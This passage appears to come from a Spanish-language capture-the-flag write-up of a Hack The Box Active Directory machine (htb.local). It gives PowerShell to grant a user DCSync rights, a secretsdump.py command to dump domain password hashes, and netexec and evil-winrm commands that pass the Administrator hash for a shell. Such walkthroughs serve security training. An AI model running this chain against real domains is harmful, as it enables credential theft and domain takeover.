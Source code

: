 <figure><img src="../../../../../.gitbook/assets/887_vmware_BloAbjIfhj.png" alt=""><figcaption></figcaption></figure>

Estos comandos le otorga al usuario **jr** el derecho DCSync en el controlador de dominio htb.local, lo que le permite replicar la base de datos del dominio y obtener hashes de contraseñas de otros usuarios.

{% code overflow="wrap" %}
```powershell
$SecPass = ConvertTo-SecureString 'Password01!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('htb.local\jr', $SecPass)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jr -Rights DCSync
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/888_vmware_pOPOEiDj4l.png" alt=""><figcaption></figcaption></figure>

### DCSync Exploitation - Secretsdump.py

Utilizaremos la herramienta de **secretsdump** para bolcar toda la información de las contraseás (hashes) del DC. Comprobamos que hemos obtenido el hash del usuario "Administrator", lo cual podremos hacer un **Pass The Hash**.

```bash
secretsdump.py -just-dc  htb.local/jr@10.10.10.161
```

<figure><img src="../../../../../.gitbook/assets/889_vmware_1qixfTCcS5.png" alt=""><figcaption></figcaption></figure>

### PassTheHash

Comprobaremos con **netexec** de conectarnos al WinRM mediante el usuario "Administrator" y el hash que hemos dumpeado con Secretsdump.py.

Comprobamos que nos aparece como **Pwn3d** lo que indica que podemos conectarnos haciendo **PassTheHash** con el usuario Administrator.

```bash
netexec winrm 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><img src="../../../../../.gitbook/assets/891_vmware_iASr06zy9M.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos haciendo **PassTheHash** con el usuario "Administrator" y su respectivo hash y comprobamos que podemos acceder y revisar la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><img src="../../../../../.gitbook/assets/890_vmware_yIoV9aPPg5.png" alt=""><figcaption></figcaption></figure>

